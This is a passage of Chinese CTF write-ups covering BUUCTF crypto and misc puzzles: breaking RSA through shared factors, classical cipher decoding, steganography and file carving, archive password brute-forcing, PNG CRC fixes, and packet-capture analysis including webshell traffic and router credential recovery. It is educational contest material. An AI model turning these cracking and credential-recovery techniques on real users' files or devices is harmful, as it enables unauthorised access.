c9 = 9919880463786836684987957979091527477471444996392375244075527841865509160181666543016317634963512437510324198702416322841377489417029572388474450075801462996825244657530286107428186354172836716502817609070590929769261932324275353289939302536440310628698349244872064005700644520223727670950787924296004296883032978941200883362653993351638545860207179022472492671256630427228461852668118035317021428675954874947015197745916918197725121122236369382741533983023462255913924692806249387449016629865823316402366017657844166919846683497851842388058283856219900535567427103603869955066193425501385255322097901531402103883869

n10 = 22324685947539653722499932469409607533065419157347813961958075689047690465266404384199483683908594787312445528159635527833904475801890381455653807265501217328757871352731293000303438205315816792663917579066674842307743845261771032363928568844669895768092515658328756229245837025261744260614860746997931503548788509983868038349720225305730985576293675269073709022350700836510054067641753713212999954307022524495885583361707378513742162566339010134354907863733205921845038918224463903789841881400814074587261720283879760122070901466517118265422863420376921536734845502100251460872499122236686832189549698020737176683019
c10 = 1491527050203294989882829248560395184804977277747126143103957219164624187528441047837351263580440686474767380464005540264627910126483129930668344095814547592115061057843470131498075060420395111008619027199037019925701236660166563068245683975787762804359520164701691690916482591026138582705558246869496162759780878437137960823000043988227303003876410503121370163303711603359430764539337597866862508451528158285103251810058741879687875218384160282506172706613359477657215420734816049393339593755489218588796607060261897905233453268671411610631047340459487937479511933450369462213795738933019001471803157607791738538467

n11 = 27646746423759020111007828653264027999257847645666129907789026054594393648800236117046769112762641778865620892443423100189619327585811384883515424918752749559627553637785037359639801125213256163008431942593727931931898199727552768626775618479833029101249692573716030706695702510982283555740851047022672485743432464647772882314215176114732257497240284164016914018689044557218920300262234652840632406067273375269301008409860193180822366735877288205783314326102263756503786736122321348320031950012144905869556204017430593656052867939493633163499580242224763404338807022510136217187779084917996171602737036564991036724299
c11 = 21991524128957260536043771284854920393105808126700128222125856775506885721971193109361315961129190814674647136464887087893990660894961612838205086401018885457667488911898654270235561980111174603323721280911197488286585269356849579263043456316319476495888696219344219866516861187654180509247881251251278919346267129904739277386289240394384575124331135655943513831009934023397457082184699737734388823763306805326430395849935770213817533387235486307008892410920611669932693018165569417445885810825749609388627231235840912644654685819620931663346297596334834498661789016450371769203650109994771872404185770230172934013971

n12 = 20545487405816928731738988374475012686827933709789784391855706835136270270933401203019329136937650878386117187776530639342572123237188053978622697282521473917978282830432161153221216194169879669541998840691383025487220850872075436064308499924958517979727954402965612196081404341651517326364041519250125036424822634354268773895465698920883439222996581226358595873993976604699830613932320720554130011671297944433515047180565484495191003887599891289037982010216357831078328159028953222056918189365840711588671093333013117454034313622855082795813122338562446223041211192277089225078324682108033843023903550172891959673551
c12 = 14227439188191029461250476692790539654619199888487319429114414557975376308688908028140817157205579804059783807641305577385724758530138514972962209062230576107406142402603484375626077345190883094097636019771377866339531511965136650567412363889183159616188449263752475328663245311059988337996047359263288837436305588848044572937759424466586870280512424336807064729894515840552404756879590698797046333336445465120445087587621743906624279621779634772378802959109714400516183718323267273824736540168545946444437586299214110424738159957388350785999348535171553569373088251552712391288365295267665691357719616011613628772175

n13 = 27359727711584277234897157724055852794019216845229798938655814269460046384353568138598567755392559653460949444557879120040796798142218939251844762461270251672399546774067275348291003962551964648742053215424620256999345448398805278592777049668281558312871773979931343097806878701114056030041506690476954254006592555275342579529625231194321357904668512121539514880704046969974898412095675082585315458267591016734924646294357666924293908418345508902112711075232047998775303603175363964055048589769318562104883659754974955561725694779754279606726358588862479198815999276839234952142017210593887371950645418417355912567987
c13 = 3788529784248255027081674540877016372807848222776887920453488878247137930578296797437647922494510483767651150492933356093288965943741570268943861987024276610712717409139946409513963043114463933146088430004237747163422802959250296602570649363016151581364006795894226599584708072582696996740518887606785460775851029814280359385763091078902301957226484620428513604630585131511167015763190591225884202772840456563643159507805711004113901417503751181050823638207803533111429510911616160851391754754434764819568054850823810901159821297849790005646102129354035735350124476838786661542089045509656910348676742844957008857457

n14 = 27545937603751737248785220891735796468973329738076209144079921449967292572349424539010502287564030116831261268197384650511043068738911429169730640135947800885987171539267214611907687570587001933829208655100828045651391618089603288456570334500533178695238407684702251252671579371018651675054368606282524673369983034682330578308769886456335818733827237294570476853673552685361689144261552895758266522393004116017849397346259119221063821663280935820440671825601452417487330105280889520007917979115568067161590058277418371493228631232457972494285014767469893647892888681433965857496916110704944758070268626897045014782837
c14 = 14069112970608895732417039977542732665796601893762401500878786871680645798754783315693511261740059725171342404186571066972546332813667711135661176659424619936101038903439144294886379322591635766682645179888058617577572409307484708171144488708410543462972008179994594087473935638026612679389759756811490524127195628741262871304427908481214992471182859308828778119005750928935764927967212343526503410515793717201360360437981322576798056276657140363332700714732224848346808963992302409037706094588964170239521193589470070839790404597252990818583717869140229811712295005710540476356743378906642267045723633874011649259842

n15 = 25746162075697911560263181791216433062574178572424600336856278176112733054431463253903433128232709054141607100891177804285813783247735063753406524678030561284491481221681954564804141454666928657549670266775659862814924386584148785453647316864935942772919140563506305666207816897601862713092809234429096584753263707828899780979223118181009293655563146526792388913462557306433664296966331469906428665127438829399703002867800269947855869262036714256550075520193125987011945192273531732276641728008406855871598678936585324782438668746810516660152018244253008092470066555687277138937298747951929576231036251316270602513451
c15 = 17344284860275489477491525819922855326792275128719709401292545608122859829827462088390044612234967551682879954301458425842831995513832410355328065562098763660326163262033200347338773439095709944202252494552172589503915965931524326523663289777583152664722241920800537867331030623906674081852296232306336271542832728410803631170229642717524942332390842467035143631504401140727083270732464237443915263865880580308776111219718961746378842924644142127243573824972533819479079381023103585862099063382129757560124074676150622288706094110075567706403442920696472627797607697962873026112240527498308535903232663939028587036724

n16 = 23288486934117120315036919418588136227028485494137930196323715336208849327833965693894670567217971727921243839129969128783853015760155446770590696037582684845937132790047363216362087277861336964760890214059732779383020349204803205725870225429985939570141508220041286857810048164696707018663758416807708910671477407366098883430811861933014973409390179948577712579749352299440310543689035651465399867908428885541237776143404376333442949397063249223702355051571790555151203866821867908531733788784978667478707672984539512431549558672467752712004519300318999208102076732501412589104904734983789895358753664077486894529499
c16 = 10738254418114076548071448844964046468141621740603214384986354189105236977071001429271560636428075970459890958274941762528116445171161040040833357876134689749846940052619392750394683504816081193432350669452446113285638982551762586656329109007214019944975816434827768882704630460001209452239162896576191876324662333153835533956600295255158377025198426950944040643235430211011063586032467724329735785947372051759042138171054165854842472990583800899984893232549092766400510300083585513014171220423103452292891496141806956300396540682381668367564569427813092064053993103537635994311143010708814851867239706492577203899024

n17 = 19591441383958529435598729113936346657001352578357909347657257239777540424811749817783061233235817916560689138344041497732749011519736303038986277394036718790971374656832741054547056417771501234494768509780369075443550907847298246275717420562375114406055733620258777905222169702036494045086017381084272496162770259955811174440490126514747876661317750649488774992348005044389081101686016446219264069971370646319546429782904810063020324704138495608761532563310699753322444871060383693044481932265801505819646998535192083036872551683405766123968487907648980900712118052346174533513978009131757167547595857552370586353973
c17 = 3834917098887202931981968704659119341624432294759361919553937551053499607440333234018189141970246302299385742548278589896033282894981200353270637127213483172182529890495903425649116755901631101665876301799865612717750360089085179142750664603454193642053016384714515855868368723508922271767190285521137785688075622832924829248362774476456232826885801046969384519549385428259591566716890844604696258783639390854153039329480726205147199247183621535172450825979047132495439603840806501254997167051142427157381799890725323765558803808030109468048682252028720241357478614704610089120810367192414352034177484688502364022887

n18 = 19254242571588430171308191757871261075358521158624745702744057556054652332495961196795369630484782930292003238730267396462491733557715379956969694238267908985251699834707734400775311452868924330866502429576951934279223234676654749272932769107390976321208605516299532560054081301829440688796904635446986081691156842271268059970762004259219036753174909942343204432795076377432107630203621754552804124408792358220071862369443201584155711893388877350138023238624566616551246804054720492816226651467017802504094070614892556444425915920269485861799532473383304622064493223627552558344088839860178294589481899206318863310603
c18 = 6790553533991297205804561991225493105312398825187682250780197510784765226429663284220400480563039341938599783346724051076211265663468643826430109013245014035811178295081939958687087477312867720289964506097819762095244479129359998867671811819738196687884696680463458661374310994610760009474264115750204920875527434486437536623589684519411519100170291423367424938566820315486507444202022408003879118465761273916755290898112991525546114191064022991329724370064632569903856189236177894007766690782630247443895358893983735822824243487181851098787271270256780891094405121947631088729917398317652320497765101790132679171889

n19 = 26809700251171279102974962949184411136459372267620535198421449833298448092580497485301953796619185339316064387798092220298630428207556482805739803420279056191194360049651767412572609187680508073074653291350998253938793269214230457117194434853888765303403385824786231859450351212449404870776320297419712486574804794325602760347306432927281716160368830187944940128907971027838510079519466846176106565164730963988892400240063089397720414921398936399927948235195085202171264728816184532651138221862240969655185596628285814057082448321749567943946273776184657698104465062749244327092588237927996419620170254423837876806659
c19 = 386213556608434013769864727123879412041991271528990528548507451210692618986652870424632219424601677524265011043146748309774067894985069288067952546139416819404039688454756044862784630882833496090822568580572859029800646671301748901528132153712913301179254879877441322285914544974519727307311002330350534857867516466612474769753577858660075830592891403551867246057397839688329172530177187042229028685862036140779065771061933528137423019407311473581832405899089709251747002788032002094495379614686544672969073249309703482556386024622814731015767810042969813752548617464974915714425595351940266077021672409858645427346

n=[n0,n1,n2,n3,n4,n5,n6,n7,n8,n9,n10,n11,n12,n13,n14,n15,n16,n17,n18,n19]
c=[c0,c1,c2,c3,c4,c5,c6,c7,c8,c9,c10,c11,c12,c13,c14,c15,c16,c17,c18,c19]

for i in range(len(n)):
    for j in range(len(n)):
        if(i!=j):
            if(gcd(n[i],n[j])!=1):   #对不同的n进行 欧几德得 算法，以求出最大公约数
                print(i,j)
                print("p =",gcd(n[i],n[j]))

```

有了p就直接求q，进而去计算m再转换成字符即为flag。

### 37. 达芬奇密码

无思路，百度大佬的wp，整体思路是对比斐波那契数列和给的蒙娜丽莎数列对于数列index发生多少移位则将给的密文移位多少即得flag

- 斐波那契数列：

```
1 1 2 3 5 8 13 21 34 55 89 144 233 377 610 987 1597 2584 4181 6765 10946 17711 28657 46368 75025 121393 196418 317811 514229 832040 1346269 2178309
```

- 给的蒙娜丽莎数列：

```
1 233 3 2584 1346269 144 5 196418 21 1597 610 377 10946 89 514229 987 8 55 6765 2178309 121393 317811 46368 4181 1 832040 2 28657 75025 34 13 17711
```

- 给的密文：

```
36968853882116725547342176952286
```

1为斐波那契数列第0位，所以密文第0位3不用移位；

233是斐波那契数列的第12位，所以密文第1位6需要移动12位；

……

编写脚本破译：

```python
#主要思路是遍历fakefibbo，然后找出对应哪一位，如fb中第二个数对应rb中第五个
#然后cipher对应fakebibbo,因此cipher中第二个数对应flag第五个数
#因此有reslut[4]=cipher[1],依次类推
realfibbo = '1 1 2 3 5 8 13 21 34 55 89 144 233 377 610 987 1597 2584 4181 6765 10946 17711 28657 46368 75025 121393 196418 317811 514229 832040 1346269 2178309'
fakefibbo = '1 233 3 2584 1346269 144 5 196418 21 1597 610 377 10946 89 514229 987 8 55 6765 2178309 121393 317811 46368 4181 1 832040 2 28657 75025 34 13 17711'
cipher = '36968853882116725547342176952286'
realfibbo = realfibbo.split(' ')
fakefibbo = fakefibbo.split(' ')
result = ['a']*32
for i in range(len(cipher)):
#这里要考虑到第二个1(fb[24])寻找的时候，会找到1123中第一个数，也就是index=0，而我们希望他找到第二个数，也就是index=1
    if(i == 24):
        index = 1
    else:
        index = realfibbo.index(fakefibbo[i])
    result[index] = cipher[i]
for i in result:
    print(i,end='')
```

### 38. [WUSTCTF2020]佛说：只能四天

首先进行新约佛论禅解密[新约佛论禅/佛曰加密 - PcMoe!](http://hi.pcmoe.net/buddha.html)，得到社会主义核心价值观编码；

接着进行社会主义核心价值观解码[CTF在线工具-在线核心价值观编码|核心价值观编码算法|Core Values Encoder (hiencode.com)](http://www.hiencode.com/cvencode.html)，得到一串字符串：

```
RLJDQTOVPTQ6O6duws5CD6IB5B52CC57okCaUUC3SO4OSOWG3LynarAVGRZSJRAEYEZ_ooe_doyouknowfence
```

根据`doyouknowfence`，进行栅栏解码(去除doyouknowfence)，观察结果发现：

```
分为4栏时，解密结果为：R5UALCUVJDCGD63RQISZTBOSO54JVBORP5SAT2OEQCWY6CGEO53Z67L_doyouknowCaesar_
```

进行凯撒解密：

```
key #0: R5UALCUVJDCGD63RQISZTBOSO54JVBORP5SAT2OEQCWY6CGEO53Z67L_
key #1: Q5TZKBTUICBFC63QPHRYSANRN54IUANQO5RZS2NDPBVX6BFDN53Y67K_
key #2: P5SYJASTHBAEB63POGQXRZMQM54HTZMPN5QYR2MCOAUW6AECM53X67J_
key #3: O5RXIZRSGAZDA63ONFPWQYLPL54GSYLOM5PXQ2LBNZTV6ZDBL53W67I_
key #4: N5QWHYQRFZYCZ63NMEOVPXKOK54FRXKNL5OWP2KAMYSU6YCAK53V67H_
key #5: M5PVGXPQEYXBY63MLDNUOWJNJ54EQWJMK5NVO2JZLXRT6XBZJ53U67G_
key #6: L5OUFWOPDXWAX63LKCMTNVIMI54DPVILJ5MUN2IYKWQS6WAYI53T67F_
key #7: K5NTEVNOCWVZW63KJBLSMUHLH54COUHKI5LTM2HXJVPR6VZXH53S67E_
key #8: J5MSDUMNBVUYV63JIAKRLTGKG54BNTGJH5KSL2GWIUOQ6UYWG53R67D_
key #9: I5LRCTLMAUTXU63IHZJQKSFJF54AMSFIG5JRK2FVHTNP6TXVF53Q67C_
key #10: H5KQBSKLZTSWT63HGYIPJREIE54ZLREHF5IQJ2EUGSMO6SWUE53P67B_
key #11: G5JPARJKYSRVS63GFXHOIQDHD54YKQDGE5HPI2DTFRLN6RVTD53O67A_
key #12: F5IOZQIJXRQUR63FEWGNHPCGC54XJPCFD5GOH2CSEQKM6QUSC53N67Z_
key #13: E5HNYPHIWQPTQ63EDVFMGOBFB54WIOBEC5FNG2BRDPJL6PTRB53M67Y_
key #14: D5GMXOGHVPOSP63DCUELFNAEA54VHNADB5EMF2AQCOIK6OSQA53L67X_
key #15: C5FLWNFGUONRO63CBTDKEMZDZ54UGMZCA5DLE2ZPBNHJ6NRPZ53K67W_
key #16: B5EKVMEFTNMQN63BASCJDLYCY54TFLYBZ5CKD2YOAMGI6MQOY53J67V_
key #17: A5DJULDESMLPM63AZRBICKXBX54SEKXAY5BJC2XNZLFH6LPNX53I67U_
key #18: Z5CITKCDRLKOL63ZYQAHBJWAW54RDJWZX5AIB2WMYKEG6KOMW53H67T_
key #19: Y5BHSJBCQKJNK63YXPZGAIVZV54QCIVYW5ZHA2VLXJDF6JNLV53G67S_
key #20: X5AGRIABPJIMJ63XWOYFZHUYU54PBHUXV5YGZ2UKWICE6IMKU53F67R_
key #21: W5ZFQHZAOIHLI63WVNXEYGTXT54OAGTWU5XFY2TJVHBD6HLJT53E67Q_
key #22: V5YEPGYZNHGKH63VUMWDXFSWS54NZFSVT5WEX2SIUGAC6GKIS53D67P_
key #23: U5XDOFXYMGFJG63UTLVCWERVR54MYERUS5VDW2RHTFZB6FJHR53C67O_
key #24: T5WCNEWXLFEIF63TSKUBVDQUQ54LXDQTR5UCV2QGSEYA6EIGQ53B67N_
key #25: S5VBMDVWKEDHE63SRJTAUCPTP54KWCPSQ5TBU2PFRDXZ6DHFP53A67M_
```

逐一进行base32解密，解密到`key #3:`时得到flag，顺带一提位移为3叫凯撒，所以可以直接解密key为3的。

### 39. [MRCTF2020]古典密码知多少

标准银河字母+圣堂武士+猪圈变形，图片上的信息即为`FGCPFLIRTUASYON`，又提到了fence（栅栏），解密即可

### 40. rot

题目名字是rot，大体应该是rot解密，

python脚本跑一下：

```python
a = [83,89,78,84,45,86,96,45,115,121,110,116,136,132,132,132,108,128,117,118,134,110,123,111,110,127,108,112,124,122,108,118,128,108,131,114,127,134,108,116,124,124,113,108,76,76,76,76,138,23,90,81,66,71,64,69,114,65,112,64,66,63,69,61,70,114,62,66,61,62,69,67,70,63,61,110,110,112,64,68,62,70,61,112,111,112]
b = []
for i in a:
    i = i-13
    b.append(i)

for j in b:
    print(chr(j),end='')
```

跑出结果：

```
FLAG IS flag{www_shiyanbar_com_is_very_good_????}
MD5:38e4c352809e150186920aac37190cbc
```

需要进行md5爆破，还是跑python脚本：

```python
import hashlib
a="83 89 78 84 45 86 96 45 115 121 110 116 136 132 132 132 108 128 117 118 134 110 123 111 110 127 108 112 124 122 108 118 128 108 131 114 127 134 108 116 124 124 113 108 76 76 76 76 138 23 90 81 66 71 64 69 114 65 112 64 66 63 69 61 70 114 62 66 61 62 69 67 70 63 61 110 110 112 64 68 62 70 61 112 111 112"
b=a.split(" ")
m="38e4c352809e150186920aac37190cbc"
# flag=""
# for j in range(0,26):
#     flag=""
#     for i in range(len(b)):
#         flag+=chr(int(b[i])-j)
#     print(flag)
flag="flag{www_shiyanbar_com_is_very_good_"

for x in range(21,127):
    for y in range(21,127):
        for z in range(21,127):
            for q in range(21,127):
                w=hashlib.md5(str(flag + chr(x) + chr(y) + chr(z) + chr(q) + "}").encode("utf-8"))
                w0=w.hexdigest()
                print(w0)
                if(w0==m):
                    print(flag+chr(x)+chr(y)+chr(z)+chr(q)+"}")
                    break


```


## MISC

### 1. 金三胖

Stegsolve逐帧分析得到flag

### 2. 你竟然赶我走

010打开，文件尾藏有flag

### 3. 二维码

kali下binwalk分离

```shell
binwalk -e QR_code.png --run-as=root
```

得到一个压缩包和一个名为4number.txt的文件，提示压缩包的密码是四位数字，使用ARCHPR爆破密码为7639


解压即得到flag

### 4. 大白

使用tweakpng查看图片crc值；

运行脚本查看图片原本大小：

```python
import os
import binascii
import struct

crcbp = open("dabai.png","rb").read()
for i in range(2000):
	for j in range(2000):
		data = crcbp[12:16] + struct.pack('>i',i) + struct.pack('>i',j)+crcbp[24:29]
		crc32 = binascii.crc32(data) & 0xffffffff
		if(crc32 == 0x6d7c7135):
			print(i,j)
			print('hex:',hex(i),hex(j))
```

使用tweakpng输入正确的图片大小即可查看到flag；

### 5. N种方法解决

不是exe，文本编辑器打开是个图片base64编码

CaptfEncoder 解码得到一个二维码，QR Research解码得到flag

### 6. 乌镇峰会种图

flag在文件尾

### 7. wireshark

大鲨鱼分析，查找关键字flag，追踪http流

### 8. 基础破解

ARCHPR破解得到压缩包密码，解压后打开是个base64，解码即得flag

### 9. 文件中的秘密

右键查看备注即得flag

### 10. LSB

Stegsolve查看发现rgb的0通道上有东西，data extract得到二维码，扫描得到flag

### 11. zip伪加密

010打开搜索50 4B 01 02修改后数第四位为偶数即可绕过伪加密

50 4B 01 02 1F 00 14 00 **09 00**（修改为08 00）

### 12. 被嗅探的流量

破空_flag查找工具V3.0.exe查找即可得到flag

### 13. rar

ARCHPR爆破

### 14. qr

QR Research解码得到flag

### 15. 镜子里面的世界

LSB隐写

### 16. ningen

kali中binwalk分离，win中ARCHPR爆破密码，解密查看flag

### 17. 爱因斯坦

kali中binwalk分离，原本jpg图片备注中藏着密码输入解密查看flag

### 18. 小明的保险箱

kali中binwalk分离，win中ARCHPR爆破密码，解密查看flag

### 19. easycap

任意记录追踪TCP流

### 20. 隐藏的钥匙

010打开，查找flag，base64解密

### 21. 另外一个世界

010打开，解码文件末尾的01串得到flag

### 22. FLAG

LSB隐写发现文件头是50 4B 03 04，为zip文件，保存解压，kali中使用file命令发现是ELF文件；

直接strings查看字符串就可拿到flag

### 23. 神秘龙卷风

ARCHPR爆破，得到一个文本，使用brainfuck解码得到flag

### 24. 数据包中的线索

大鲨鱼打开，过滤为http，追踪http流，base64解码得到图片，flag在图片上

### 25. 假如给我三天光明

图片下方是盲文，参照 [CTF\]盲文对照表 - 神龙云计算 - 博客园 (cnblogs.com)](https://www.cnblogs.com/liume/p/10104530.html) 翻译后得到解压缩密码，解压得到音频文件放入Audacity是摩斯电码，解密得到flag


### 26. 后门查杀

D盾查杀


审计include.php，发现flag

### 27. webshell后门

同上

### 28. 来首歌吧

解压得到音频文件放入Audacity是摩斯电码，解密得到flag

### 29. 面具下的flag

kali中binwalk分离zip，伪加密；

解压是个vmdk文件，kali中使用7z命令解压

```shell
7z x flag.vmdk
```

有两部分，第一部分是Brainfuck编码，第二部分是Ook!编码，解密拼接即得flag

[Brainfuck/Ook! Obfuscation/Encoding [splitbrain.org\]](https://www.splitbrain.org/services/ook)

### 30. 荷兰宽带数据泄露

文件是conf.bin，是宽带数据文件，需要用RouterPassView打开，但是没有给出明确的提示FLAG，那么应该是账户名或者是密码；

多次尝试发现是用户名即为flag

### 31. 九连环

010打开jpg图片发现文件尾FF D9后面还有内容为50 4B 03 04，可以确定是藏了一个压缩包，binwalk分离得到压缩包，伪加密解压；

解压后还是一个压缩包和图片，使用steghide发现图片有隐写文件，使用`steghide extract -sf good.jpg`，空密码即可；


得到解压密码解压第二个压缩包即得flag

### 32. 被劫持的神秘礼物

大鲨鱼打开，过滤http，题目提示说是要找到登录名和密码，直接追踪longin的http流


可以看到用户名和密码`name=admina&word=adminb`，按照提示md5加密即可。

### 33. [BJDCTF2020]认真你就输了

直接excel打开一堆乱码，用010打开搜索flag，得到：

```
xl/charts/flag.txt
```

将后缀改成zip解压（word也可以）打开这个文件即得到flag。

### 34. [BJDCTF2020]藏藏藏

010打开发现藏了一个压缩包，不知道为什么binwalk不能分离，使用foremost分离

```shell
foremost xxx.jpg
```

打开一个压缩包，解压出来的word中有一个二维码，扫码即得flag

### 35. 被偷走的文件

提示说是被偷走的文件，大鲨鱼打开过滤ftp-data（ftp-data 是ftp 的数据通道），追踪流；


设置为原始数据然后保存为rar，爆破密码以后即可得到flag。

### 36. 刷新过的图片

根据提示是F5隐写，使用工具F5-steganography-master：

```shell
 java Extract D:\Work\Misc.jpg
```

得到输出output.txt，打开是个二进制文件，用010打开：


50 4B 03 04，很明显是个zip，而且有伪加密，修改后缀并且把50 4B 01 02 1F 00 14 00 01 00 修改为50 4B 01 02 1F 00 14 00 00 00即可查看到flag

### 37. [GXYCTF2019]佛系青年

下载的附件是伪加密，修改完毕后txt中有一段与佛论禅加密，在线解密即可得到flag

[与佛论禅 (keyfc.net)](https://www.keyfc.net/bbs/tools/tudoucode.aspx)

### 38. [BJDCTF2020]你猜我是个啥

010打开直接有flag在文件尾

### 39. snake

下载得到了一个jpg，binwalk分离

```shell
binwalk snake.jpg -e --run-as=root
```

分离出一个zip文件，可以直接解压，得到key和cipher文件；

key文件是段base64编码，解码得到`What is Nicki Minaj's favorite song that refers to snakes?`，百度下，anaconda；

cipher是Serpent编码，使用[Serpent Encryption – Easily encrypt or decrypt strings or files (online-domain-tools.com)](http://serpent.online-domain-tools.com/)解码得到flag。

### 40. 秘密文件

大鲨鱼打开，过滤ftp协议，发现传输的是一个rar文件，追踪流保存文件，ARCHPR暴力破解得到flag


### 41. [BJDCTF2020]鸡你太美

有两张gif，副本的那个正常打不开010打开，发现缺少gif文件头，补足47 49 46 38后重新打开即得flag；

- 010插入字节：编辑-插入/覆盖-插入字节

### 42. [BJDCTF2020]just_a_rar

下载得到4位数.rar，直接ARCHPR爆破，打开得到一张jpg图片，右键详情即可得到flag

### 43. 菜刀666

菜刀一般都是post连接，于是我们过滤post数据`http.request.method==POST`；

有一条流量数据大小很明显和其他流量不一样，追踪HTTP流看看：


有两个参数z1和z2，z1是`%3D`结尾（即url编码的=），所以应该是base64编码，解码看看：


是文件上传的路径，那么后面的z2应该是图片上传的内容，FF D8开头，FF D9结尾，jpg无疑，将十六进制粘贴到010中，注意要粘贴为16进制文本；



以为是flag，提交发现不是，继续分析流量：


最后两条流量也不正常，追踪HTTP流：


藏了一个压缩包，提取出来，输入图片中的密码解压即得flag。

### 44. [BJDCTF2020]一叶障目

010打开，出现`CRC不匹配`报错


图片能正常打开，但是出现`CRC匹配错误`一般是修改了宽高；

跑脚本看看原宽高是多少

```python
import os
import binascii
import struct

crcbp = open("1.png","rb").read()
for i in range(2000):
    for j in range(2000):
        data = crcbp[12:16] + struct.pack('>i',i) + struct.pack('>i',j)+crcbp[24:29]
        crc32 = binascii.crc32(data) & 0xffffffff
        if(crc32 == 0xc20f1fc6):
            print(i,j)
            print('hex:',hex(i),hex(j))
```

TweakPNG修改即可

### 45. [SWPU2019]神奇的二维码

QR Research直接扫描得到swpuctf{flag_is_not_here}行不通；

binwalk分离得到几个rar压缩包，word中的是多次base64加密后的密码，多次base64解密即可得到密码，解压得到`good.mp3`，一听很明显就是摩斯电码；

使用`Audacity`打开，解密即可得到flag；

另：多次base64解密脚本

```python
import base64

def decode(f):
	n = 0;
	while True:
		try:
			f = base64.b64decode(f)
			n += 1
		except:
			print('[+]Base64共decode了{0}次，最终解码结果如下:'.format(n))
			print(str(f,'utf-8'))
			break

if __name__ == '__main__':
	f = open('./base64.txt','r').read()
	decode(f)

```

### 46. [BJDCTF2020]纳尼

010打开缺少.gif文件头补足，逐帧输入图片上的内容base64解密即可得到flag

### 47. 梅花香之苦寒来

右键查看下备注


图穷提示文件尾，010打开搜索文件尾FF D9，发现后面还有一大串，拷贝出来16进制解码下：


一系列的坐标，再参照备注中的提示显然是要用这些坐标画图，运行脚本：

```python
import matplotlib.pyplot as plt
import numpy
import binascii
file=open('1.txt','rb').read()
file=file[:]#
file=binascii.unhexlify(file)#
s=file.decode()
o=open('out.txt','w')
for x in s:
    o.write(x.strip('(').strip(')'))
o.close()
x,y=numpy.loadtxt('out.txt',delimiter=',',unpack=True)
plt.plot(x,y,'.')
plt.show()

```

得到一个二维码，扫码即得flag。

### 48. [HBNIS2018]excel破解

修改后缀为.zip，010打开搜索flag即可得到flag

### 49. [HBNIS2018]来题中等的吧

图片上是摩斯电码，解码包上flag提交即可。

### 50. [ACTF新生赛2020]outguess

对jpg图片中的备注进行核心价值观解码，得到abc，kali中使用outguess来进行提取：

```shell
outguess -k 'abc' -r mmm.jpg flag.txt 
```

### 51. 穿越时空的思念

`Audacity`打开摩斯电码解密即得flag

### 52. 谁赢了比赛？

首先去kali中使用binwalk/foremost分离出一个rar压缩包，ARCHPR爆破出密码解压，得到一个gif，Stegsolve打开一帧一帧看：


保存这一帧，继续StegSolve打开：

。

扫码即得flag

### 53. [WUSTCTF2020]find_me

备注中的信息盲文解密即可

### 54. [SWPU2019]我有一只马里奥

运行exe文件，得到输出：


提示ntfs数据流,打开所在目录cmd:

```shell
notepad .\1.txt:flag.txt
```

或者使用工具 `ntfsstreamseditor.exe`：


### 55. [GUET-CTF2019]KO

Ook!编码

### 56. [GXYCTF2019]gakki

binwalk/foremost分离、ARCHPR爆破都没有问题，最后得到一个无规则字符串文本：


词频统计：

```python
# -*- coding:utf-8 -*-
#Author: mochu7
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%^&*()_+- =\\{\\}[]"
strings = open('./flag.txt').read()

result = {}
for i in alphabet:
	counts = strings.count(i)
	i = '{0}'.format(i)
	result[i] = counts

res = sorted(result.items(),key=lambda item:item[1],reverse=True)
for data in res:
	print(data)

for i in res:
	flag = str(i[0])
	print(flag[0],end="")

```

跑一下脚本得到flag

### 57. [ACTF新生赛2020]base64隐写

跑脚本解决：

```python
import base64
 
def get_base64_diff_value(s1, s2):
    base64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
    res = 0
    for i in range(len(s2)):
        if s1[i] != s2[i]:
            return abs(base64chars.index(s1[i]) - base64chars.index(s2[i]))
 
    return res
 
def solve_stego():
    with open('ComeOn!.txt') as f:
        file_lines = f.readlines()
        bin_str = ''
        for line in file_lines:
            steg_line = line.replace('\n', '')
            #norm_line = line.replace('\n', '').decode('base64').encode('base64').replace('\n','')
 
            norm_line = line.replace('\n', '').encode('utf-8')
            norm_line = base64.b64decode(norm_line).decode('utf-8')
            
            norm_line = base64.b64encode(norm_line.encode('utf-8')).decode('utf-8')
            norm_line = norm_line.replace('\n', '')
 
 
            diff = get_base64_diff_value(steg_line, norm_line)
            print(diff)
            pads_num = steg_line.count('=')
            if diff:
                bin_str += bin(diff)[2:].zfill(pads_num * 2)
            else:
                bin_str += '0' * pads_num * 2
            print(goflag(bin_str))
 
 
def goflag(bin_str):
    res_str = ''
    for i in range(0, len(bin_str), 8):
        res_str += chr(int(bin_str[i:i+8], 2))
    return res_str
 
if __name__ == '__main__':
    solve_stego()
```

### 58. [MRCTF2020]ezmisc

010打开提示CRC错误，应该是修改了宽高，跑脚本看看正确的宽高是多少：


```python
import os
import binascii
import struct

crcbp = open("flag.png","rb").read()
for i in range(2000):
    for j in range(2000):
        data = crcbp[12:16] + struct.pack('>i',i) + struct.pack('>i',j)+crcbp[24:29]
        crc32 = binascii.crc32(data) & 0xffffffff
        if(crc32 == 0x370c8f0b):
            print(i,j)
            print('hex:',hex(i),hex(j))
```

TweakPNG修改宽高即可看到flag

### 59. [HBNIS2018]caesar

凯撒解密：


### 60. 黑客帝国

打开的文本观察到都是16进制数据，CyberChef转为16进制保存得到一个rar压缩包：


有密码，ARCHPR爆破得到密码，解压是张png图片，但打不开，010打开：


观察看到文件尾是FF D9，可能是jpg文件，修改文件头为FF D8，再改下后缀为jpg，直接打开即可得flag。

### 61. [SWPU2019]伟大的侦探

解压发现需要密码，密码.txt有提示：


用010打开，修改为EBCDIC即可看到密码


解压是跳舞小人，对照解密即可得到flag

### 62. [HBNIS2018]低个头

键盘解密

### 63. [MRCTF2020]你能看懂音符吗

解压错误，rar文件头修改下：


打开显示：


改为zip后缀解压发现：


音符解密https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=yinyue


### 64. [SUCTF2018]single dog

图片中有隐藏压缩包，binwalk分离：

```shell
binwalk attachment.jpg -e --run-as=root
```

分离出文件，百度了下是AAEncode编码，随波逐流解密：


### 65. 我吃三明治

由两张jpg图片拼接而成，010打开搜索下FF D9，拼接处有串字符，base32解密得到flag：


### 66. [SWPU2019]你有没有好好看网课?

一个压缩包提示密码是6位数字，ARCHPR爆破解压：


解压出来是个视频和word，word内容：


Potplayer打开mp4，一帧一帧看发现：


有串代码，百度了下发现是敲击码：

```
..... ../... ./... ./... ../
```

/是划分符号，修改为空格后随波逐流解密下：


继续逐帧查看：


base64解密：


拼接起来就是：

```
wllmup_up_up
```

解压另外一个压缩包，010打开搜索下得到flag


